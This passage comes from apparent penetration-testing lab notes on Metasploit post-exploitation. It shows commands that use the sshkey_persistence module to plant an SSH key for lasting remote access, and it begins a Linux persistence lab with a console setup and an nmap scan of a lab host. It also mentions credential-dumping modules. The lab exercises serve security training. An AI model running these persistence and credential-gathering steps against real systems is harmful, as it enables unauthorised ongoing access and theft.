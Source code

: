 * Perform **SSH Persistence**

```bash
search sshkey
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 2
run
```

<figure><img src="../../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

***

## Lab 4 - Persistence <a href="#lab-3-persistence" id="lab-3-persistence"></a>

> 🔬 Same as [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> * Target IP: `192.207.171.2`
> * Metasploit **`post/linux/gather/`** credentials dumping modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.207.171.3
workspace -a Linux_Persistence
db_nmap -sV 192.207.171.3
```
